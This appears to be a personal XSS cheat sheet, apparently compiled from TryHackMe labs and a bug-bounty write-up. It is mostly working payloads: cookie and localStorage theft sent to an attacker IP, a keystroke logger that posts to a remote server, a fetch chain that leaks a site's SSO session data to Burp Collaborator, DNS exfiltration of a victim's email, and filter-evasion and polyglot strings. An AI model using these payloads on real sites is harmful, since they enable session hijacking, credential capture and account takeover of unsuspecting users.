



# XSS
User input is not HTML entity encoded and this may lead to cross site scripting (XSS). In a web application where a user’s input is reflected i always try to test for either PHP code injection or cross site scripting and I’ve been lucky in more times that one.

Looking at the source code of the web application we notice that our message is wrapped between textarea tags

Sometimes, cookies can be injected directly, with something like base64 encoding the payload 

`<script src='http://10.17.17.11/p.js'></script>` and instead of document.cookie, try `+JSON.stringify(localStorage)` as well.

For defacing website, using tags such title etc.,

`<script>document.querySelector('title').textContent = 'Resolve XSS plz'</script>`

for stealing session ids:

`<script>window.location='http://10.17.17.11/?cookie='+document.cookie</script>`

for machine ip(reflected):

`<script>alert(window.location.hostname)</script>`

DOM XSS:

`test" onmouseover="alert('Hover over the image and inspect the image element')"`

XSS PORT SCAN:

```text-plain
<script>
 for (let i = 0; i < 256; i++) { 
  let ip = '192.168.0.' + i 

  let code = ''
  document.body.innerHTML += code 
 } 
</script>
```

XSS Keylogger:
--------------

```text-plain
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script>
```

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://10.17.17.11/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://10.17.17.11/log?key=' + btoa(e.key) );}</script>`

The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.



**How to test for Reflected XSS:**  
 

You'll need to test every possible point of entry; these include:

*   Parameters in the URL Query String
*   URL File Path
*   Sometimes HTTP Headers (although unlikely exploitable in practice)

for reflected xss, we used a web server(ruby) on port 8080 and made request to it through js script with document.location

**How to test for Stored XSS:**

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

*   Comments on a blog
*   User profile information
*   Website Listings
*   an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

**Exploiting the DOM**

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.  
  
**Example Scenario:**  
  
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

**How to test for Dom Based XSS:**  
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

**PAYLOADS**
------------

`<script>alert('THM');</script> when it's input is directly taken without any tags`

`"><script>alert('THM');</script> when input tag is used`

`</textarea><script>alert('THM');</script>` for textarea tag

``

``

`<sscriptcript>alert('THM');</sscriptcript>`

``

If input is taken inside a <script> tag as shown in image, then use `';alert('THM');//`



When a word gets removed from a string due to filter, there's a helpful trick that you can try.  


You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

`/images/cat.jpg" onload="alert('THM');`

**Polyglots:**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully. 

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

Immediately invoked function expression
---------------------------------------

An immediately invoked function expression is a programming language idiom which produces a lexical scope using function scoping.

After fuzzing for a while I bypassed the restriction using the iife function and the alert box popped up with the following payload:

> [`_https://www.redacted.com/preview/001981ba?blogPostId=test123";(alert)("xss")//_`](https://www.redacted.com/preview/001981ba?blogPostId=test123";(alert)("xss")//)
> 
> `_";fetch('https://www.redacted.com/api/uis/accounts/current/sso').then(a=> a.text()).then(a=> fetch('https://random.burpcollaborator.net?x='+a))//_`

**Explanation:** Here I am using the fetch() method of javascript in my payload that instructs the web browsers to send a request to a URL. The first fetch() sends a GET request to this api endpoint _https://www.redacted.com/api/uis/accounts/current/sso_ (leaking session id) which we can use to hijack the account. `**(a=> a.text())**` return the data into the `**a**` variable**.** After that second fetch() function is used to send another GET request to send the stolen data into the attacker control server. For that purpose I simply used Burp Collaborator.

working payload :

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=window.location="http://10.17.17.11/" + document.getElementById("title")//>\x3e``

`</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>`

for viewing email with XSS:

```text-plain
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```

Sometimes, http requests are blocked so we can use dns to exfill our data as shown in the script above.

Filter Evasion
--------------

If tags `<>` are filtered, we can use `&lt` and `&gt` , these have to be suffixed by `;`, as script is filtered we take advantage and depend on it being filtered to render script again with `sscriptcript`, finally try strings and numbers, you never know what might be filtered.

`&lt;sscriptcript&gt;alert('1')&lt;/sscriptcript&gt;`

`&lt;sscriptcript&gt;window.location='http://10.17.17.11/cookie=' +document.cookie;&lt;/sscriptcript&gt;`